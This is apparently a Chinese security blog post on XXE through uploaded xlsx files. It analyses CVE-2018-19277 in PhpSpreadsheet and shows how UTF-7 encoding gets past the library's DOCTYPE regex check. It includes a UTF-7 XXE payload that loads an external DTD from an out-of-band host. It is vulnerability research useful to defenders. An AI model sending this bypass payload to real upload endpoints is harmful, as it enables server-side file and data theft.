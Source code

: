 # xxe实践探索

## 背景
之前看过一篇讲利用xlsx文件构造xxe payload的博客
https://www.4armed.com/blog/exploiting-xxe-with-excel/
先知也有翻译。当时看完博客，按照复现步骤构造了payload后找了个数字产品的excel上传点测了一下没成功就放弃折腾了。最近又看到几个可以上传xlsx的网站，想起来之前的经历，决定重新看看这个问题。

## OOXML
OOXML是Office Open XML的简称，一个xlsx文件就是一堆xml文件的压缩包，比如我新建1个normal.xlsx。改了个sheet名，1行1列输了一串a。
![-w499](media/15552288460409/15553096661880.jpg) 

解压xlsx得到一堆xml文件。  
![-w369](media/15552288460409/15553098644527.jpg)  

解压后的结构  
![-w274](media/15552288460409/15553101464498.jpg)  

aaaa...  
![-w1432](media/15552288460409/15553102717304.jpg) 

test-sheet1  
![-w1436](media/15552288460409/15553104462469.jpg)  

直接在xml中添加DOCTYPE再重新压缩在office2007之后是打不开的，因为office2007开始禁止了DTD。但是作为服务端解析来说，office能否打开无所谓，最终能否成功执行xxe只和各编程语言中负责解析xlsx的库相关。

## 不同编程语言的解析行为
* php
php自带xml解析库libxml，自从2.9.0以后提供了一个函数禁止解析外部实体，但是需要显示声明
```
libxml_disable_entity_loader(true)
```
在其被禁止的情况下如何突破呢？利用反序列化漏洞构造一个初始化打开外部实体解析开关的对象可以绕过，但是这偏题了。xlsx文件是一系列xml的压缩包，解析xlsx，本质上还是解析xml，php解析excel一般用  
https://github.com/PHPOffice/PHPExcel  
后来更名为  
https://github.com/PHPOffice/PhpSpreadsheet  
2018年11月13日爆出了编号为CVE-2018-19277的xxe漏洞，这个漏洞利用了编码utf-7绕过了正则的安全检查，漏洞分析可以参考安全客这篇文章，虽然它有很多问题  
https://www.anquanke.com/post/id/170068  
编码后的payload大概长这样，这是其中一处错误，实际上utf-7编码后置改变了开头的<!，DOCTYPE并不会变
![-w851](media/15552288460409/15553141607574.jpg)
但是这个漏洞到底怎么产生的？按照我之前的理解，php解析xml时一般都会禁止外部实体解析。通过分析文章可以看到漏洞最终是因为simplexml的simplexml_load_file造成的。通过《php_xxe》的测试结果，只有在simplexml_load_file的第3个参数是《php_xxe》的测试结果显示的11个危险参数之一时造成http payload的执行，下载漏洞版本1.5.0，看simplexml_load_file执行的位置

```
$xml = simplexml_load_string($this->securityScan($gFileData), 'SimpleXMLElement', Settings::getLibXmlLoaderOptions());
```

第3个参数是Settings::getLibXmlLoaderOptions()
```
/**
 * Get default options for libxml loader.
 * Defaults to LIBXML_DTDLOAD | LIBXML_DTDATTR when not set explicitly.
 *
 * @return int Default options for libxml loader
 */
public static function getLibXmlLoaderOptions()
{
    if (self::$libXmlLoaderOptions === null && defined('LIBXML_DTDLOAD')) {
        self::setLibXmlLoaderOptions(LIBXML_DTDLOAD | LIBXML_DTDATTR);
    } elseif (self::$libXmlLoaderOptions === null) {
        self::$libXmlLoaderOptions = true;
    }

    return self::$libXmlLoaderOptions;
}
```

第1个if条件满足（与逻辑的第2项为真是因为LIBXML_DTDLOAD是libxml的内置常量）。
这个漏洞让我学到的第2点是xml头的属性，作者通过encoding属性绕过了漏洞产品本身的正则检测。xml头可以定义成
```
<?xml version="1.0"?>
```
也可以定义成
```
<?xml version="1.0" encoding="UTF-8"?>
```
还可以定义成
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

构造utf-7编码的payload
```
$str1 = mb_convert_encoding($str, "UTF-7");
```
输出结果
```
+ADwAIQ-DOCTYPE xmlrootname +AFsAPAAh-ENTITY +ACU aaa SYSTEM +ACI-http://xxxxx.ceye.io/lalala.dtd+ACIAPgAl-aaa+ADsAJQ-ccc+ADsAJQ-ddd+ADsAXQA+-
```
这已经够绕过代码本身的检测了，因为代码本身检测的是`<!DOCTYPE`
```
    public function securityScan($xml)
    {
        $pattern = '/\\0?' . implode('\\0?', str_split('<!DOCTYPE')) . '\\0?/';
        if (preg_match($pattern, $xml)) {
            throw new Exception('Detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
        }

        return $xml;
    }
```
之后通过漏洞作者和开发者的对话了解到另一个之前忽略的问题：libxml_disable_entity_loader(true)是在大概php5.2以后才提供的，php7下可以直接禁止，但是php5中考虑到兼容性的问题，很难直接禁掉，这个时候就只能依靠正则了。开发者的修复思路是检查编码类型，如果不是utf-8通通转化为utf-8再检查正则。其实如果不转化直接依靠正则呢？只检查DOCTYPE应该是没有问题的，因为utf-16也绕不过，但是还得看解析的时候支持哪些编码。
  


* java
解析库：apache poi, CVE-2016-5000  
   
* python
解析库：openpyxl, CVE-2017-5992	

* golang
golang本身自带的xml库不解析DTD，参考
https://stackoverflow.com/questions/28107960/how-can-i-force-gos-standard-xml-parser-to-read-dtd-entities
解析库：tealeg/xlsx
360EntSecGroup-Skylar/excelize



## 拓展
https://github.com/BuffaloWill/oxml_xxe
可以作为xml payload载荷的除了OOXML，还有以上提到的几种
